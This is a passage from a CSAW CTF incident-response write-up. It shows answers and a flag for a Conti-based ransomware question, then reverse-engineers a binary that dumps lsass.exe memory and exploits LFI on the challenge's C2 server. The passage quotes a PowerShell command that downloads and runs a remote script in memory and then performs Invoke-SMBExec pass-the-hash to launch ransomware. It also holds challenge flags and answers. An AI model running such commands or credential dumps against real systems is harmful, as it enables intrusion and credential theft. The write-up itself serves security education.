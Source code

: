 ```diff
+conti
 (4/5) What encryption algorithms are used by the ransomware? Please give the answer as a comma-separated array
+AES-CBC,RSA
 (5/5) Is it realistically possible to recover the files using only the source code? Please answer as either yes or no
+no
 Nice Job! Thanks for explaining the ransomware to us.
 Here's your flag --> csawctf{c0n71_r4n50mw4r3_1n_c#}
```

## Extreme Comfusion (by Jason)

> staring at stripped windows c++ is going to make me gouge my eyes out
> 

~ Jason

Given the communicator binary from before, our first question is to find the name of the process it's dumping memory for. Since stripped C++ is painful to look at, I just clicked into random functions until I found the main function at `140001850`. The main function loads some random data, then calls the function at `140001620` on it, which from squinting at I guessed to be a C++ string allocation function due to the call to `new`, and then calls the function at `140004d60`, which looks like a single-byte XOR function where the byte to XOR with is the third argument.

Dumping the data in main and xoring with 0x33, we get the string `C:\Windows\Temp\FXSTIFFDebugLogFileAdmin.txt`. I recognized the filename from the pcap so I kept this in mind for later. Main then calls the function at `140001270` which looks like another C++ stdlib function so I ignored it, then moved onto the function at `140004920` which has a lot more stuff. The function checks for the `SeDebugPrivilege` privilege, which would allow a program to debug other programs, so it seems like this function will do the dumping. Skimming the function, there's more calls to the single-byte XOR, so I dump the data to get the string `lsass.exe`, which is the answer to the first part.

The next part asks for the full path to the dumped file. This is just `C:\Windows\Temp\FXSTIFFDebugLogFileAdmin.txt` from before.

The next part asks for the first 32 characters of the base64 command being run from the server. At this point it's possible to reverse engineer the binary to figure out how the communication scheme works, but I was growing weary of stripped C++ so I decided to check out the website, and promptly found this:

![An image of Jason sending a link demonstrating LFI in the infected-c2.csaw.io site](/assets/posts/csaw-ir/BJI5WyrJp.png)

Yep. Their web server has LFI. After trying a bunch of files, I found `../Dockerfile` which led me to `../web.py` which had the full source of the web server. This reveals the command being run:
```python
LATERAL_MOVEMENT = "New-Module -Name LaTm0v -ScriptBlock ([Scriptblock]::Create((New-Object " \
                   "System.Net.WebClient).DownloadString(\"http://infected-c2.csaw.io/static?file=lat.ps1\"))); " \
                   "Invoke-SMBExec -Target \"{ip}\" -Domain \"{domain_name}\" -Username \"{username}\" -Hash \"{" \
                   "ntlm}\" -Command \"{ransomware}\""
```
Base64 encoding this and taking the first 32 characters we get the answer `TgBlAHcALQBNAG8AZAB1AGwAZQAgAC0A`.
